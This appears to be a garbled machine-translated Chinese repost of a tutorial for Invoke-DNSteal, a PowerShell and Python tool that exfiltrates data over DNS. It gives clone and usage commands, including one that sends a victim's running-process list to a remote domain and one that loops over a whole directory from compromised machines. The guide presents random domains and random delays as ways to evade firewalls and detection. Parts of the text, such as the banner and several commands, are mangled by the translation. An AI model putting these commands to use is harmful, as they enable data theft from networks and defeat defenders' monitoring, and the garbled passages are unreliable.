









# Invoke-DNSteal:简单且可定制的 DNS 数据过滤程序

> 原文：<https://kalilinuxtutorials.com/invoke-dnsteal/>

**Invoke-DNSteal** 是一个简单的&可定制的 DNS 数据过滤器。

该工具帮助您通过 UDP 和 TCP 上的 DNS 协议来过滤数据，并允许您使用随机延迟来控制查询的大小。此外，允许您通过在每个查询中使用随机域来避免检测，并且您可以使用它在本地和远程传输信息。

**要求**

*   Powershell 4.0 或更高版本
*   Python 2

**下载**

建议克隆完整的存储库或下载 zip 文件。您可以通过运行以下命令来实现这一点:

**git 克隆 https://github.com/JoelGMSec/Invoke-DNSteal.git**

**用途**

**。\ Invoke-dn steal . PS1-h
_ _*_ _ _ _ _ _*_
| _*|*|*_**_ _*|*_ _*| _ | \ |/*| | ^ _ ^ _ ^ _ ^ _ ^ _ ^ _ ^ |/_ _ _*| | | |/_ ^ _ ^/*' | | ^ _ ^ _ ^ _ ^ v/(*)|</*| |*| | | | \ |*)| |/(*| | |
|*| | | | _/_ _ _/|*| _ |*_/_*_ | _ _， *|* |**

**————————by @ joelmsec——————————**

**Info:这个工具帮助你通过 DNS 协议
过滤数据，并让你使用随机延迟
控制查询的大小用法:。\ Invoke-dn steal . PS1-t Target-p Payload-l length
-s Server-tcponly true/false-Min 3000-Max 5000
参数:
Target:要过滤数据的域目标
Payload:要通过 DNS 块发送的有效负载
length:控制数据大小的有效负载长度
Server:用于解析 DNS 查询的自定义服务器
TcpOnly:将 TcpOnly 设置为 true 或 false
Delay Min:要执行的最小延迟时间 ms
Random:使用随机域名以避免检测**
警告:长度(有效负载大小)必须在 4 到 240 之间
处理时间将根据数据大小而增加

**详细的使用指南可在以下链接中找到:**

本周，我(再次)带着另一个项目回来了。这是一个叫做 **Invoke-DNSteal** 的小巧轻便的工具，它将允许我们通过 DNS 协议来泄漏信息。由于它的简单，我们实际上不需要依赖来使用它，我们将能够在 Windows 和 Linux 上接收信息。

正如我们在以前的帖子中看到的，在红队审计或演习期间，每个 pentester 通常都会遇到的最常见的问题之一是来自被入侵主机的国外通信。

如果你还没有读过[如何用 DNSCat2 从零开始解密信息](https://darkbyte.net/exfiltrando-informacion-con-dnscat2-desde-cero)，我建议你在开始这篇文章之前先读一读。此外，域名配置在两种情况下是相同的，所以如果你想通过互联网过滤信息，你必须**执行这些步骤**。

你肯定知道，有各种各样的工具可以达到这个目的。毕竟这个概念不是我发明的(也不是我来重新发明轮子的)。当时我们已经在本帖中谈到了**神秘主义** [，它不仅允许我们泄漏信息，还允许我们通过这个和许多其他协议重定向端口或接收反向外壳。](https://darkbyte.net/jugando-con-remote-shells-parte-iii-mistica)

我经常使用的另一个工具是[DNS excitator](https://github.com/Arno0x/DNSExfiltrator)，因为它允许我们动态加密信息，并且在定制方面非常完整。毫无疑问，如果你想通过 DNS 进行渗透，那么**是你的武器库中不可缺少的工具**。

现在，如果已经有非常好的工具可以实现这一目的(显然，我不打算一一列举)，那么再做一个又有什么意义呢？简单地说，尽管我尝试了很多，但有些事情我无法用这些工具来做。

**这**一切**都是从一次红队演习**开始的，在那次演习中，我像往常一样要通过 DNS 泄露信息。到目前为止，一切都是正确的:Windows 环境，我的域配置在 Cloudflare 和 Kali 等待接收信息。但是一旦我认真对待它，我就遇到了很多问题。

首先，**它只能使用 A 类记录**。第二，查询不能超过一定的规模(否则，值班的防火墙会为我阻挡*的查询*)。好像这一切还不够，当我正确地发送了一定数量的查询时，他们最终再次阻止了我的行为。

此时，我决定列出一个简短的清单，列出我需要的所有东西，以便能够创建一个满足我所有需求的工具:

尽可能做到轻量级和兼容
最好使用原生系统功能
UDP 和 TCP 都支持 DNS
可定制的查询长度以控制总大小
随机超时以避免行为检测
使用随机元素规避可能的技术
在被渗透文件中控制顺序和扩展名
能够以无人值守的方式渗透整个目录

一旦需求明确，我就开始使用 **Invoke-DNSteal** 。

正在讨论的工具**由两个组件**组成:客户端和服务器端。第一个——正如所料——是在 PowerShell 中完成的，第二个是在 Python2 中完成的(是的，你没看错，Python2。

由于缺乏时间(主要是)，我已经用这种语言编写了部分代码，移植到 Python3 是我无法承担的工作。出于这个原因，我优先考虑功能性，尽管使用一种过时的语言已经一年多了。

在这两种情况下，**任何一方都不需要任何类型的**额外的**依赖**(除了解释器)，因为没有使用任何由第三方创建的库。在客户端部分，我们需要 Windows 8 或更高版本，在服务器部分，只需要安装 Python2 或其便携版本，在 Windows 和 Linux 中都可以。

以下是 GitHub 上的项目页面，了解更多信息:[https://github.com/JoelGMSec/Invoke-DNSteal](https://github.com/JoelGMSec/Invoke-DNSteal)

现在我们对 **Invoke-DNSteal** 有了一点了解，让我们检查一下它是否工作。

首先，我们将像往常一样克隆存储库:

**git 克隆 https://githu**

一旦下载，我们会发现上面提到的两个部分。我们要做的第一件事是使用 **-h** 参数查询帮助语法:

正如在前面的图像中可以看到的，服务器部分的使用是完全无关紧要的。要让服务器监听，我们必须做的唯一一件事就是引入我们的 IP(或所有，使用 0.0.0.0)和我们希望用于 **-udp** 或 **-tcp** 的协议。

如果我们对客户端部分进行同样的操作，结果使用语法会复杂得多，如下所示:

尽管帮助已经很完整了，我们还是要回顾一下可以在客户端使用的每个参数:

| **参数** | **描述** |
| **-t /目标*** | 要使用的域:遵循格式*sub.domain.com* |
| **-p /有效载荷*** | 要过滤的数据:作为*字符串*，作为变量中的*对象，或者通过 *$ pwd \ file_name.ext** |
| **-l /长度** | DNS 查询中负载的长度。默认情况下，有效负载长度为 24 个字符 |
| **-服务器** | 解析 DNS 查询的服务器，可以是本地的，也可以是外部的。如果未指定，将使用默认服务器 |
| **-tcponly** | 如果参数后显示 *true* ，TCP 将用于执行 DNS 查询。否则，将使用 UDP |
| **-分钟** | 查询之间的最小延迟(毫秒) |
| **-最大值** | 查询之间的最大延迟(毫秒)。将随机使用*最小值*和*最大值*之间的值 |
| **-随机** | 在每个查询中使用随机域，不管作为目标输入的域是什么 |

标有*的参数是强制的，其余的完全是可选的。为了更好地理解该工具的使用，我们将在下面的用例中考虑最常见的例子。

在任何情况下，我们要做的第一件事就是让服务器以如下方式进行监听:

**python Invoke-dn steal . py 0 . 0 . 0 . 0**

从这里，**我们可以接收任何类型的信息**(可以是字符串、PowerShell 对象或带有相应扩展名的文件)，而无需在服务器端做任何其他事情。

在我的例子中，我已经在我的 Kali 上使用了它，但是我们可以在 Windows 机器上使用 [Portable Python](https://github.com/oskaritimperi/portablepython) 或任何其他解决方案来完成它。

现在，我们要做一个小测试，通过互联网发送一个*字符串*。记住，对于这个**,您需要一个正确配置的域**和一个运行服务器的机器的地址(在我的例子中是一个 NAT)。

我总是进行这种类型的测试，以验证环境是否正常运行。为此，我们将在客户端执行以下命令:

**。\ Invoke-dn steal . PS1-t subdomain.com**

如果一切正常，**我们应该会看到类似于前面图像的东西**。类似地，我们应该在服务器端看到同样的事情，以及一条消息，告诉我们文件已经正确地保存在一个. txt 文件中

我们可以做的事情之一就是使用帮助中没有包含的*调试*功能来检查上述内容。为了实现这一点，我们将在终端中执行以下命令:

**。\ Invoke-dn steal . PS1-d paylo**ad

正如在前面的图像中可以看到的那样，*有效载荷*与发送的数据完全对应，因此通过这种方式，我们可以肯定地知道**通信在整个过程中没有被改变**。

在下面的用例中，我们将使用 PowerShell 变量作为*有效负载*来过滤在受害机器上运行的进程。为了增加一点复杂性，我们将使用 Cloudflare 的 DNS 服务器，请求之间的等待时间为 1 秒，通过 TCP 的每个查询的长度为 32 字节:

**Data = Get-Process | Out-String；。\ Invoke-dnsteal . PS1-t sub.domain.com-p $ data-l 32-s 1.1.1.1-tcponly true-min 10**

一个有趣的事实是，在客户端的第一行，总是会出现以下信息:

以字节/ KB / MB / GB 为单位发送的数据量(有效)
总共将发送的查询量(块)
发送信息的协议
传输开始的确切日期和时间

需要强调的是**实际数据并不是全部数据**，因为在服务器端，我们总是会收到以下格式的查询:

*序列号+有效载荷(定义长度)+sub.domain.com*

因此，我们**必须将查询的额外字节添加到我们的有效负载**(我们总是可以在服务器端看到这一点)。

此外，将始终发送开始查询和结束查询，它们的名称分别为 start 和 end。在这些序列中，将发送扩展，以便在其余的查询中节省一些字节。

一旦接收前一个文件所需的时间过去，我们应该会收到类似下图的内容:

既然我们已经清楚了该工具最基本的功能，那么让我们来看看最复杂的使用示例。

假设我们在一个 Windows 环境(例如，一个活动目录网络)中危害了两台计算机。我们可以从机器 A 访问机器 B，反之亦然，但是机器 B 没有互联网连接，我们希望将一个完整的目录导出到机器 A，而机器 A 可以访问互联网。

在这两种情况下，我们只有非特权用户，因此，发送和接收过程都将在介质完整性过程中执行。唯一的基本要求是系统的防火墙中有一条规则允许连接到服务器。

此外，我们知道在这两者之间有一个新一代的防火墙，它可以通过阻止我们想要使用的任何域来阻挠我们的计划(如果输出直接进入互联网，这也是适用的)。

这种诡辩，先验地，对任何该领域的专家来说都是一个大问题。但是，**感谢底层的** DNS 服务器实现(感谢[@ 3v4sion](https://twitter.com/3v4si0n)出色的 TCP 实现)这不会成为问题。

基本上，**无论目的服务器是什么，我们的服务器总是会响应**。也就是说，如果我们请求 fake.domain.com 的 T2，我们的服务器将接收查询并返回它运行的 IP 地址。

这样，如果我们在每个查询中使用一个完全随机的域，任何域阻塞系统都不会影响我们。即使它们阻断了所使用的每一个域，**完全相同的链将被重复**的概率也是极低的。

因此，**阻止这种通信**的唯一方法是阻止这些机器之间的 DNS 流量，或者在源或目的地阻止 IP 通信。显然，根据环境和被入侵的机器，这是完全不可行的，这给了我们使用 **Invoke-DNSteal** 进行文件传输的自由通道。

作为一张图胜过千言万语，还是实践中见吧。我们要做的第一件事是下载任何版本的 Python for Windows(可移植的或可安装的，根据用户的喜好)，我们将让服务器在 UDP 模式下监听。

接下来，我们将在客户端部分执行以下命令:

**(ls)。姓名| % {。\ Invoke-dn steal . PS1-t C2 . fake . domain-p $ pwd \ $ _-l 24-s destination _ IP-TCP false-min 0-max 0-random**

his 将以最快的速度通过随机查询发送目录中的每个文件及其相应的扩展名。如果我们想进一步增加传输容量，我们可以将有效载荷的长度增加到 240 个字符。

请务必记住，DNS 协议中 A 类查询的最大容量在任何情况下都不能超过 255 字节，因此超过此限制可能会破坏数据传输。在确定所需的域长度时，建议不要使用大于 200 的值。

如果一切正常(如果查询中有错误，它们不会出现在客户机上)，我们应该观察我们如何在服务器端接收数据:

最后，我们应该会看到接收到的文件，如下所示:

从这里开始，你可以组合工具提供的每一种可能性(控制接收的字节，使用随机时间和域，等等)。)以避开任何能够阻止这种类型流量的解决方案。

此外，无论是否有互联网连接，都可以使用该工具在任何场景下传输文件。

最后的结论是，这个工具仍处于测试阶段，您可能会在非常具体的场景中发现一些错误。如果你发现任何问题，不要犹豫，尽快联系我解决。

[**Download**](https://github.com/JoelGMSec/Invoke-DNSteal)